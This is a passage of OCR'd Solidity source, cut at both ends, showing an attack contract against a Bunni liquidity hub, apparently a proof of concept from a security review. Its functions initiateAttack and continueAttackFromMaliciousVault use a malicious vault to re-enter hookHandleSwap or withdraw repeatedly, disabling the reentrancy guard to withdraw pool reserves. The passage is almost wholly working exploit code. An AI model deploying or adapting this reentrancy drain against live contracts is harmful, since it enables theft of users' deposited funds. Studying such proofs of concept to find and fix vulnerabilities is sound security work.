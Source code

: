 ```solidity
            })
        );
    }

    function unlockCallback(bytes calldata data) external returns (bytes memory result) {
        (uint8 mode, address token, uint256 amount, address spender, bool zeroForOne) =
            abi.decode(data, (uint8, address, uint256, address, bool));
        if (mode == 0) {
            poolManager.sync(Currency.wrap(token));
            IERC20(token).transferFrom(spender, address(poolManager), amount);
            uint256 deltaAmount = poolManager.settle();
            poolManager.mint(address(this), Currency.wrap(token).toId(), deltaAmount);
        } else if (mode == 1) {
            hub.hookHandleSwap(key, zeroForOne, amount, 0);
        } else if (mode == 2) {
            hub.hookHandleSwap(key, false, 1, amountOfReservesToWithdraw);
        }
    }

    function initiateAttack(
        IBunniHub _hub,
        PoolKey memory _key,
        address _targetVault,
        uint256 _amountToWithdraw,
        Vector _vec,
        uint256 iterations
    ) public {
        reentrancyIterations = iterations;
        hub = _hub;
        key = _key;
        vault = _targetVault;
        vec = _vec;
        if (vec == Vector.HOOK_HANDLE_SWAP) {
            amountOfReservesToWithdraw = _amountToWithdraw;
            poolManager.unlock(abi.encode(uint8(2), address(0), amountOfReservesToWithdraw, msg.sender, true));
        } else if (vec == Vector.WITHDRAW) {
            sharesToWithdraw = _amountToWithdraw;
            hub.withdraw(
                IBunniHub.WithdrawParams({
                    poolKey: _key,
                    recipient: address(this),
                    shares: sharesToWithdraw,
                    amount0Min: 0,
                    amount1Min: 0,
                    deadline: block.timestamp,
                    useQueuedWithdrawal: false
                })
            );
        }
    }

    function continueAttackFromMaliciousVault() public {
        if (iterationsCounter != reentrancyIterations) {
            iterationsCounter++;
            disableReentrancyGuard();

            if (vec == Vector.HOOK_HANDLE_SWAP) {
                hub.hookHandleSwap(
                    key, false, 1, /* amountToDeposit to trigger the updateIfNeeded */ amountOfReservesToWithdraw
                );
            } else if (vec == Vector.WITHDRAW) {
```